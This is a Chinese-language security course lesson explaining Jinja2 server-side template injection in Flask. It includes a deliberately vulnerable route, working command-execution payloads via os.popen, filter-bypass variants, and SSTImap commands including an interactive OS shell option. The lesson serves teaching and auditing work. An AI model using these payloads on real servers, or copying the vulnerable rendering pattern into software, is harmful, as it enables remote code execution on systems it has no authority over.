





# 🐍 Python安全课程 P69：SSTI模板注入与Jinja2引擎利用绕过


## 概述
在本节课中，我们将学习Python Web安全中的一个重要漏洞：服务器端模板注入。我们将重点讲解Jinja2模板引擎的SSTI漏洞原理、利用方法、绕过技巧以及黑盒检测手段。课程内容从基础概念到实战利用，旨在让初学者也能理解并掌握相关技术。


## 什么是SSTI？🔍
SSTI全称为Server-Side Template Injection，即服务器端模板注入。这是一种发生在Web应用模板渲染过程中的安全漏洞。当用户输入被直接拼接到模板中，并且未经充分过滤就交给模板引擎解析时，攻击者可能注入恶意模板代码，最终导致远程代码执行。


前期在PHP安全开发和Java安全开发课程中已做过简单演示。实际上，各种Web开发语言和框架的模板引擎都可能存在此类问题。


## 主流模板引擎与漏洞
以下是一些出现过安全问题的常见模板引擎：





*   **Python**: Jinja2, Mako, Tornado
*   **PHP**: Smarty, Twig
*   **Java**: FreeMarker, Velocity, Thymeleaf
*   **JavaScript**: Jade, Handlebars, EJS
*   **Ruby**: ERB, Slim, Haml


漏洞产生的根本原因通常并非引擎本身的设计缺陷，而是开发人员在使用时未能对用户输入进行安全处理。


## SSTI漏洞原理与演示 💥
为了更直观地展示漏洞，我们来看一个使用Flask框架（集成Jinja2模板引擎）的Python Web应用示例代码。


### 漏洞代码示例
```python
from flask import Flask, request, render_template_string
app = Flask(__name__)


@app.route('/')
def index():
    name = request.args.get('name', '小迪')
    template = '<h1>Hello {{ s }}!</h1>'
    return render_template_string(template, s=name)


if __name__ == '__main__':
    app.run()
```
这段代码启动一个Web服务。它接收一个名为`name`的GET参数，默认值为“小迪”，然后将其渲染到一个简单的HTML模板中并返回。


### 漏洞触发点
访问 `http://127.0.0.1:5000/?name=123`，页面会显示 `Hello 123!`。这里的 `{{ s }}` 就是Jinja2的模板变量语法，`s`的值由我们传入的`name`参数控制。




关键在于，Jinja2引擎会解析 `{{ ... }}` 中的内容。如果我们传入的不是普通字符串，而是模板表达式呢？





### 从表达式到代码执行
1.  **测试表达式执行**：传入 `name={{2*3}}`。页面显示 `Hello 6!`，而不是 `Hello {{2*3}}!`。这证明 `{{2*3}}` 被Jinja2引擎解析并计算了。
2.  **理解解析符号**：`{{` 和 `}}` 是Jinja2的模板表达式定界符。不同模板引擎的定界符不同，例如Smarty是 `{...}`，Twig是 `{{...}}`。利用漏洞时，需要根据目标使用的引擎来调整payload的格式。


这个简单的表达式执行，为后续的远程代码执行打开了大门。


## Jinja2 SSTI漏洞利用详解 ⚙️
在Python的Jinja2 SSTI中，利用过程通常分为三步：**探测可用类** -> **寻找目标类索引** -> **调用类方法执行命令**。


### 第一步：探测可用类
在Jinja2模板中，可以使用Python的魔术方法来获取信息。例如，`{{ ''.__class__ }}` 会返回空字符串的类对象。


为了获取当前环境中所有可用的类（即对象继承链上的所有父类），我们可以使用以下payload：
```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```
*   `__class__`：获取对象的类。
*   `__mro__`：获取类的方**法解析顺序**（Method Resolution Order），返回一个包含该类及其所有父类的元组。`[1]`通常指向`object`基类。
*   `__subclasses__()`：获取`object`基类的所有直接子类列表。


执行这个payload会输出一个很长的列表，包含了当前Python环境中加载的所有类。


### 第二步：寻找目标类索引
我们的目标是找到并调用能够执行系统命令的类，例如 `os` 模块或 `subprocess` 模块。我们需要在上一步得到的类列表中，找到这些类的索引位置。





假设我们从输出中搜索 `os`，发现 `<class 'os._wrap_close'>` 位于列表的第133号位置（索引从0开始，所以是 `[133]`）。


### 第三步：构造利用链执行命令
找到目标类后，我们就可以通过索引调用它，进而调用其危险方法（如 `os.system` 或 `os.popen`）。


一个典型的命令执行payload如下：
```python
{{ ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['popen']('whoami').read() }}
```
这个payload的分解：
1.  `''.__class__.__mro__[1].__subclasses__()[133]`：定位到 `os._wrap_close` 类。
2.  `.__init__.__globals__`：获取该类初始化函数的全局命名空间，其中就包含了导入的 `os` 模块。
3.  `['popen']`：从全局命名空间中获取 `os.popen` 函数。
4.  `('whoami')`：调用 `popen` 执行 `whoami` 命令。
5.  `.read()`：读取命令执行的结果并输出到页面。


**为什么用 `popen` 而不用 `system`？** 因为 `popen` 可以方便地获取命令输出（通过 `.read()`），而 `system` 只执行命令，不直接返回输出。


## 利用技巧与绕过 🛡️ -> ⚔️
在实际漏洞利用或CTF挑战中，经常会遇到过滤和限制。以下是一些常见的绕过技巧。


### 1. 使用其他内置对象或属性
除了使用空字符串 `''`，还可以使用其他内置对象来启动利用链，例如空列表 `[]`：
```python
{{ [].__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('id').read() }}
```
`__base__` 与 `__mro__[1]` 作用类似，都是获取直接父类。


### 2. 利用Flask内置对象绕过数字过滤
如果过滤了数字（如`2`,`3`，使我们无法指定索引`133`），可以利用Flask框架的一些内置对象直接引用模块，避免使用索引。
*   **使用 `config` 对象**：
    ```python
    {{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
    ```
    `config` 是Flask的配置对象，其全局命名空间中也包含了 `os` 模块。
*   **使用 `request` 对象**：
    ```python
    {{ request.application.__init__.__globals__['os'].popen('id').read() }}
    ```


### 3. 绕过引号过滤
如果过滤了单引号 `'` 或双引号 `"`，可以使用 `request` 对象从请求参数中获取字符串。
```python
{{ ().__class__.__base__.__subclasses__()[133].__init__.__globals__[request.args.a].popen(request.args.b).read() }}
```
访问URL时附带参数：`?a=os&b=whoami`


### 4. 绕过关键字过滤
如果过滤了 `os`、`popen` 等关键字，可以采用字符串拼接、编码或利用其他函数的方式。
*   **字符串拼接**：`{{ (request.args.a~request.args.b).__... }}`，访问 `?a=o&b=s`
*   **使用 `chr()` 函数构造**：`{{ ().__class__.__base__.__subclasses__()[133].__init__.__globals__[chr(111)%2bchr(115)].popen(...) }}`


### 5. 使用 `attr()` 过滤器绕过点号`.`和下划线`_`过滤
Jinja2提供了 `attr()` 过滤器，可以代替点号来访问属性。
```python
{{ ''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(133)|... }}
```
如果下划线也被过滤，同样可以通过 `request` 参数传递属性名。


## 黑盒检测与自动化工具 🧰
在实战黑盒测试中，我们通常无法直接看到源代码。检测SSTI漏洞可以遵循以下思路：


### 检测思路
1.  **寻找注入点**：关注所有用户输入在响应页面中**原样显示**的地方。例如，用户名、搜索关键词、错误信息、语言参数（如`?lang=en`）等。这与检测XSS漏洞的观察点类似。
2.  **模糊测试**：在疑似注入点提交特殊的模板语法探测payload，观察响应是否被解析。
    *   **通用探测**：`{{7*7}}`、`${7*7}`、`<%=7*7%>`（对应不同引擎）。
    *   **如果回显`49`**，则很可能存在SSTI，并可以初步判断引擎类型。




### 自动化工具推荐
手工检测和利用较为繁琐，推荐使用自动化工具进行初步探测和利用。


1.  **tplmap** (已停止维护，但经典)
    *   功能全面，支持多种模板引擎的检测和利用。
    *   使用示例：`python2 tplmap.py -u 'http://target.com/page?name=test'`


2.  **SSTImap** (推荐，持续更新)
    *   tplmap的继任者，功能更强，支持更多引擎和绕过。
    *   使用Python3。
    *   使用示例：
        ```bash
        python3 sstimap.py -u 'http://target.com/page' --data 'name=test'
        python3 sstimap.py -u 'http://target.com/page?name=test' --os-shell
        ```
    *    `--os-shell` 参数可以尝试获取一个交互式命令行。


**工具局限性**：自动化工具可能无法处理复杂的过滤和绕过场景，此时需要结合手动分析，运用前面提到的绕过技巧来构造payload。


## 总结
本节课我们一起深入学习了Python Jinja2引擎的SSTI模板注入漏洞。


*   **我们理解了SSTI的原理**：由于用户输入被不安全地嵌入模板并解析执行。
*   **我们掌握了利用流程**：从探测类、寻找索引到最终调用危险方法执行命令。
*   **我们学习了多种绕过技巧**：应对数字、引号、关键字、点号、下划线等过滤。
*   **我们了解了黑盒检测方法**：通过寻找回显点和使用自动化工具进行高效探测。


虽然Python Web应用在实战中占比相对PHP/Java较少，但SSTI作为一类经典的服务器端漏洞，在CTF和代码审计中仍具有重要意义。理解其原理和利用方式，有助于提升整体Web安全攻防能力。